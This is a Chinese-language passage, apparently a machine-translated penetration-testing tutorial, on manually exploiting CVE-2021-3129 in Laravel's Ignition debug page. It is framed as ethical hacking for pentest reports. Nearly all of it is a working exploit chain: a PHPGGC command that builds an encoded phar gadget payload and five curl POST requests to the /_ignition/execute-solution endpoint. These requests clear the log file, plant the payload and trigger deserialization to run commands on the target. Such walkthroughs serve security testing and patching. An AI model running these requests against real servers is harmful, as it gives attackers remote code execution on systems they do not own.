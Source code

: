 一旦您找到了目标，就该验证它们中的哪些实际上是可以利用的，这样您就可以提交一份全面的 pentest 报告，帮助有效地确定补救的优先顺序。

一旦您找到了目标，就该验证哪些目标实际上是可以利用的，这样您就可以提交一份全面的 pentest 报告，帮助有效地确定补救的优先顺序。

## **如何在道德黑客活动中手动检测 CVE-2021-3129**

在开始发送请求之前，我们需要使用 **PHPGGC** 来构建我们的有效负载。

在上一节中，我展示了一个命令来创建一个有效负载，如下所示:

```
“php -d 'phar.readonly=0' phpggc/phpggc laravel/rce3 system command --phar phar -o php://output | base64 -w0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:].zfill(2) + '=00' for i in sys.stdin.read()]).upper())”.
```

为此，我们至少需要在我们的机器上安装 PHP CLI 包和 PHPGGC。当然，这不是唯一可用的有效载荷。我们可以使用不同的有效载荷从 RCE1 到 7 的 Laravel gadgets。在制作好我们的有效负载之后，我们可以发送下面的请求链来触发 RCE。

为了利用 CVE-2021-3129 ，你需要发送一连串的 POST 请求来实现 RCE:

```
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}, }’  http(s)://<Target_ip>:<port>/_ignition/execute-solution
```

```
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "AA"}, }’  http(s)://<Target_ip>:<port>/_ignition/execute-solution
```

```
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=4E=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=..."}, }’  http(s)://<Target_ip>:<port>/_ignition/execute-solution
```

```
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}, }’  http(s)://<Target_ip>:<port>/_ignition/execute-solution
```

```
curl -XPOST -H 'Content-Type: application/json'  -d ‘{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "test", "viewFile": "phar://../storage/logs/laravel.log"}, }’  http(s)://<Target_ip>:<port>/_ignition/execute-solution
```

并且该命令的输出应该在从目标接收的最后一个响应中可用。
